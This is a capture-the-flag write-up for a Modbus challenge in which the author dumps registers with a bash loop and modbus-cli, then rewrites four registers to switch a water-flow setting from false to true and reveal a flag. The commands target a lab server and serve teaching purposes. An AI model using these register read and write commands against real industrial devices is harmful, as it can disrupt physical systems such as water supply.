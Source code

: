 # Where's My Water?
> Swampy's water has stopped working again just before his shower.
> Can you help him get the water running again?
> The other alligators said something about busmod... Whatever that is.

## About the Challenge
We got 2 servers, first we can access it using browser and here is the preview

![preview](images/preview.png)

And the other server, we need to access it using [modbus-cli](https://github.com/favalex/modbus-cli)

## How to Solve?
First, we need read the register, i have a created a bash script like this

```
#!/bin/bash
for i in {1..90}
do
  modbus challenge.nahamcon.com:31112 $i
done
```

Run the script and we got something like this

![read](images/read.png)

Take the decimal number and then convert it to a character and you will get this result

![cyberchef](images/cyberchef.png)

Change the `water_flow_enabled` value from `false` to `true` using modbus-cli (Rewrite the register). Here is the command I used to solve rewrite the register

```shell
modbus challenge.nahamcon.com:32299 19=116 # f -> t
modbus challenge.nahamcon.com:32299 20=114 # a -> r
modbus challenge.nahamcon.com:32299 21=117 # l -> u
modbus challenge.nahamcon.com:32299 22=101 # s -> e
```

![write](images/write.png)

And then access the first server to obtain the flag

![flag](images/flag.png)

```
flag{fe01fd254c40488ff3f164e2343cd0044c6d87d3}
```
